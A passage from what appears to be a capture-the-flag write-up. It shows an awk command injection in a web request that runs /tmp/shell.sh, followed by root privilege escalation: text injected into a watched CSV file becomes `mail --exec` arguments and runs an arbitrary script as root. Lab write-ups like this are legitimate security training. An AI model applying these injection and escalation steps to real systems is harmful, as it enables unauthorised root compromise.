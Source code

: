     item='%20-e%20'1e%20/tmp/shell.sh'%20'&user=1&action=delete_item
    ```

<br><br>

## Privesc www-data

- `id`
    ```
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

- `ps faxu | grep root`
    ```
    root        1013  0.0  0.0   2988  1148 ?        S    04:55   0:00  \_ inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
    root        1014  0.0  0.0  18624  1776 ?        S    04:55   0:00  \_ /bin/bash /root/scripts/notify.sh
    ```

    `inotifywait` command is monitoring changes to file `/var/www/private/leave_requests.csv`

- I run `./pspy64` to see what happens after a modification of the file `/var/www/private/leave_requests.csv`

    in another terminal: `echo 'test123456' >> leave_requests.csv`

    ```
    2022/12/15 08:46:42 CMD: UID=0    PID=6040   | tail -1 /var/www/private/leave_requests.csv 
    2022/12/15 08:46:42 CMD: UID=0    PID=6043   | awk -F, {print $1} 
    2022/12/15 08:46:42 CMD: UID=0    PID=6042   | /bin/bash /root/scripts/notify.sh 
    2022/12/15 08:46:42 CMD: UID=0    PID=6041   | /bin/bash /root/scripts/notify.sh 
    2022/12/15 08:46:42 CMD: UID=0    PID=6044   | /bin/bash /root/scripts/notify.sh 
    2022/12/15 08:46:42 CMD: UID=0    PID=6045   | mail -s Leave Request: test123456 christine 
    2022/12/15 08:46:42 CMD: UID=0    PID=6046   | /usr/sbin/sendmail -oi -f root@awkward -t 
    2022/12/15 08:46:42 CMD: UID=0    PID=6047   | /usr/sbin/postdrop -r 
    2022/12/15 08:46:42 CMD: UID=128  PID=6048   | cleanup -z -t unix -u -c 
    2022/12/15 08:46:42 CMD: UID=0    PID=6049   | trivial-rewrite -n rewrite -t unix -u -c 
    2022/12/15 08:46:42 CMD: UID=0    PID=6050   | local -t unix
    ```

    an email is sent as root and my string appears as subject:
    ```
    mail -s Leave Request: test123456 christine
    ```

    look at: [https://gtfobins.github.io/gtfobins/mail/](https://gtfobins.github.io/gtfobins/mail/) &#8594; `mail --exec='!/bin/sh'`

    inside `/tmp/privesc.sh` I put any BASH command to get a privileged shell: SUID BIT, revshell, etc...

    `echo '\ --exec="!/tmp/privesc\.sh" -u' >> leave_requests.csv`

    thanks to the execution of `/tmp/privesc.sh` I got root privileges
